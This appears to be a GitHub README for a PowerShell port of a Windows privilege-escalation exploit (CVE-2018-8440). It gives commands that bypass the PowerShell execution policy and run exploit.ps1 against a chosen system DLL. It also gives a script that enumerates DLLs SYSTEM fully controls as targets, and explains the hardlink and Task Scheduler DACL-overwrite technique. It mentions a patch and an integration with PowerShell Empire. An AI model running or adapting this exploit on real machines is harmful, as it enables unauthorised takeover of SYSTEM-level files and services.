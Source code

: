 # Usage
```
Set-ExecutionPolicy Bypass Process
.\exploit.ps1 -TargetFile C:\Windows\Some.dll
```
This will exploit the Windows operating system allowing you to modify the file Some.dll.

# Example
```
Set-ExecutionPolicy Bypass Process
.\example.ps1
```
https://youtu.be/rNSpxJd3_BM
# Finding Vulnerable DLL files
```
$aapsid = 'NT AUTHORITY\SYSTEM'

ForEach($file in (Get-ChildItem -File -recurse -Path 'C:\windows' -Filter *.dll -ErrorAction SilentlyContinue)) {
 
   $acl = Get-Acl -path $file.FullName
   ForEach($ace in $acl.Access) {
      If(($ace.FileSystemRights -eq
           [Security.AccessControl.FileSystemRights]::FullControl) -and 
            $ace.IdentityReference.Value -in $aapsid) {
               Write-Output $file.FullName
              
      }
        
   }
   
   }
```
# Further Information
The first PoC was released by [@SandboxEscaper](https://twitter.com/sandboxescaper) on the 27th August 2018, however, is now removed from GitHub.

The exploit.dll and the code for the TriggerXPSPrint.cpp comes from her original PoC. The exploit.dll simply launches notepad.
I tried to replicate the XPS print api into C# but using `System.Printing` or `System.Drawing.Printing` only calls the print job within the current user context, you need to use the API to get the spooler service to initate the print job.

The actual exploit process is the native hardlink and using the `Schedule.Service` COM object to execute the method `SetSecurityDescriptor`. This then overwrites the permissions on the hardlinked file thus also updating the DACL on the targetted file. The `example.ps1` is purely an instance of how you could use this exploit to replace a SYSTEM level service dll file. In this case it was the XPS printer, but it could also be an executable stored within `C:\Program Files` for example. 

This was patched by Microsoft on the 11th September 2018. The following link has the relevant KB numbers:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440

I since then have modified this to work with PowerShell Empire, you can read the pull request here:
https://github.com/EmpireProject/Empire/pull/1230

I have only tested this on Windows 10, in theory it should work on other versions.
